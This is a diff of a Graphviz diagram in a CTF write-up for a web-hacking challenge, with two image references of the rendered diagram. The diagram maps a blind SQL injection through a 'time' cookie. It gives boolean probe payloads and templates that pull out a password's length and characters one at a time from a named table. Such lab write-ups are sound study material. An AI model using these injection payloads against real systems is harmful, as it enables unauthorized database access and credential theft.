

The diagram in docs/web/[webhacking] 02.rst (joizel/ctf_writeup), drawn with Graphviz before and after one commit. The commit also changed other lines of this file and 5 other files, not shown here.

```diff
--- a/docs/web/[webhacking] 02.rst
+++ b/docs/web/[webhacking] 02.rst
@@ -8,19 +8,26 @@
 .. graphviz::
 
-    digraph {
-        subgraph a{
-            label="client";
-            1->2;
-            4->5;
-        }
-        subgraph b{
-            label="server";
-            2->3;
-            3->4;
+    digraph G {
+        rankdir="LR";
+        node[shape="point"];
+        edge[arrowhead="none"]
+
+        {
+            rank="same";
+            "client"[shape="plaintext"];
+            "client" -> step0 -> step2 -> step4 -> step6 -> step8 -> step10 -> step12;
         }
 
-        1->2 [label="COOKIE '1 and 1=1'"];
-        2->3 [label="<!--2070-01-01 09:00:01-->"];
-        3->4 [label="COOKIE '1 and 1=2'"]
-        4->5 [label="<!--2070-01-01 09:00:00-->"];
+        {
+            rank="same";
+            "server"[shape="plaintext"];
+            "server" -> step1 -> step3 -> step5 -> step7 -> step9 -> step11 -> step13;
+        }
+        step0 -> step1[label="time = '1 and 1=1'",arrowhead="normal"];
+        step3 -> step2[label="<!--2070-01-01 09:00:01-->",arrowhead="normal"];
+        step4 -> step5[label="time = '1 and 1=2'",arrowhead="normal"];
+        step7 -> step6[label="<!--2070-01-01 09:00:00-->",arrowhead="normal"];
+        step8 -> step9[label="time = 1 and (select if(length(password)>8,1,0) from FreeB0aRd)",arrowhead="normal"];
+        step10 -> step11[label="time = 1 and (select ascii(substr(password,%d,1)) from FreeB0aRd)=%d",arrowhead="normal"];
+
     }
```
